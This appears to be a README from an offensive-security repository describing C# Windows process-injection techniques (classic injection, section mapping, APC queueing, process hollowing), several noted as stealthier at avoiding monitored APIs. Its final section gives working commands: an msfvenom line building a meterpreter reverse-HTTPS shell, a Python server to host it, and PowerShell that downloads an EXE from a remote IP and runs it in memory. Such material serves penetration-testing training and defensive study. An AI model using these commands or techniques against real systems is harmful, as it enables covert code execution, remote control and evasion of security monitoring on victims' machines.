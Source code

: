 ## **NativeProcInjection.cs**

This technique demonstrates classic process injection using Native Windows API functions. It creates a remote process (usually `notepad.exe`), allocates memory in it, writes shellcode, and creates a remote thread to execute the payload.

**High-Level Steps:**
1. Launch a target process in suspended or running state (e.g., `CreateProcess`).
2. Allocate memory in the remote process using `VirtualAllocEx`.
3. Write the shellcode to the allocated memory using `WriteProcessMemory`.
4. Create a new thread in the remote process pointing to the shellcode with `CreateRemoteThread`.

## **NtMapInjection.cs**

This method utilizes NT native APIs to create a shared memory section and map it into both the local and remote process. It’s stealthier than the classic method and avoids using easily-monitored APIs like `WriteProcessMemory`.

**High-Level Steps:**
1. Create a memory section using `NtCreateSection`.
2. Map the section into the local process using `NtMapViewOfSection`.
3. Copy the shellcode into the local view.
4. Map the same section into the remote process using `NtMapViewOfSection`.
5. Create a remote thread in the target process with `CreateRemoteThread` or equivalent to execute the code.

## **NtQueueApc.cs**

This method uses Asynchronous Procedure Calls (APCs) to queue execution of shellcode in the context of a thread in a remote process. It is often used in combination with other techniques to delay execution or avoid detection.

**High-Level Steps:**
1. Open a handle to the target process and a thread within it.
2. Allocate memory in the target process and write the shellcode using `VirtualAllocEx` and `WriteProcessMemory`.
3. Use `NtQueueApcThread` to queue a call to the shellcode in the remote thread.
4. Resume the thread if it's suspended, so the APC can be delivered and executed.

## **procHollow.cs**

Description: Process Hollowing is an advanced injection technique where a legitimate process is started in a suspended state, its memory is unmapped, and malicious code is written into it—effectively "hollowing out" the original process. The thread is then resumed, executing the injected payload under the guise of a legitimate executable.

**High-Level Steps:**

1. Create a target process (e.g., svchost.exe) in a suspended state using CreateProcess with CREATE_SUSPENDED.
2. Retrieve the base address of the main module using NtQueryInformationProcess and ReadProcessMemory.
3. Unmap the memory of the original executable using NtUnmapViewOfSection.
4. Allocate memory in the remote process using VirtualAllocEx.
5. Write the malicious executable (often a PE file) into the allocated memory using WriteProcessMemory.
6. Update the remote process’s context (entry point) with SetThreadContext.
7. Resume the main thread with ResumeThread to execute the injected payload.

## **TryHarder.cs**

Another Process Injection technique that loads the shellcode remotely.<br>
The idea of this technique is by `Sektor 7` and ported to C# by [saulgoodman](https://github.com/saulg00dmin).

Create Shellcode using msfvenom:<br>
- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw EXITFUNC=thread -o shellcode.bin`

Serve the `shellcode.bin` with python server: `python3 -m http.server 80`

Convert the EXE into a byte array:<br>
- `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.190/Tryharder.exe')`

Load the EXE into memory:<br>
- `$assem = [System.Reflection.Assembly]::Load($data)`

Invoke its entry point:
- `$assem.EntryPoint.Invoke($null, @([string[]]@()))`
